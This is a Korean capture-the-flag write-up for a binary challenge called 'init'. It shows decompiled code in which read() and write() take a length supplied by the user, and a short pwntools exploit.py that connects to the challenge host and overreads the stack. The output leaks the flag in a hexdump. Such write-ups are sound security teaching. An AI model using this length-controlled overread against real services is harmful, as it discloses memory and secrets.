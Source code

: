 `#read` `#leak`

# init
1. [Description](#description)
2. [일단 실행](#일단-실행)
3. [취약점 파악](#취약점-파악)
4. [exploit.py](#exploit.py)
5. [FLAG](#flag)

## Description
> 서버 바이너리에는 정상적으로 플래그가 있습니다  
> nc 121.170.91.17 9901  
> [init](https://drive.google.com/uc?authuser=0&id=1IIQkcbDemlX3ceIQhWfu-o5zeqcdh3_D&export=download)

## 일단 실행
```
# ./init
Do you want to do?
[R]ead
[W]rite
[E]xit
>>>
```
읽고 쓰고가 가능해보임

## 취약점 파악
```
    44          printf("length: ", &v5);                // [R]ead
    45          __isoc99_scanf("%d", &len);
    46          v3 = &buf;
    47          read(0, &buf, len);
    48        }
    49        if ( v5 != 'W' )
    50          break;
    51        printf("length: ", &v5);                  // [W]rite
    52        __isoc99_scanf("%d", &len);
    53        v3 = &buf;
    54        write(1, &buf, len);
```
`[R]ead` 와 `[W]rite` 는 길이 len 을 직접 사용자로부터 입력받는다.
메모리 leak 이 가능해보임

## exploit.py
```
     1  from pwn import *
     2
     3  r = remote('121.170.91.17', 9901)
     4  r.recvuntil('>>> ')
     5  r.send('W')
     6  r.recvuntil(': ')
     7  r.sendline(str(0x50-8+1))
     8  r.interactive()
```
## FLAG

```
[DEBUG] Sent 0x1 bytes:
    'W' * 0x1
[DEBUG] Received 0x8 bytes:
    'length: '
[DEBUG] Sent 0x3 bytes:
    '73\n'
[*] Switching to interactive mode
[DEBUG] Received 0x49 bytes:
    00000000  68 81 67 18  26 7f 00 00  ff b5 f0 00  00 00 00 00  │h·g·│&···│····│····│
    00000010  01 00 00 00  00 00 00 00  ed 6a 45 ae  6f 55 00 00  │····│····│·jE·│oU··│
    00000020  64 69 6d 69  7b 41 31 31  30 63 41 74  33 5f 31 73  │dimi│{A11│0cAt│3_1s│
    00000030  5f 24 6f 5f  31 6d 70 30  72 74 40 6e  37 7d 00 00  │_$o_│1mp0│rt@n│7}··│
    00000040  c0 cc 26 da  ff 7f 00 00  00                        │··&·│····│·│
    00000049
h\x81g\x18&\x7f\x00\x00\xff\xb5\x00\x00\x00\x00\x00\x00\x00\x00\x00jE\xaeoU\x00\x00dimi{A110cAt3_1s_$o_1mp0rt@n7}\x00\x00&\x7f\x00\x00\x00
```

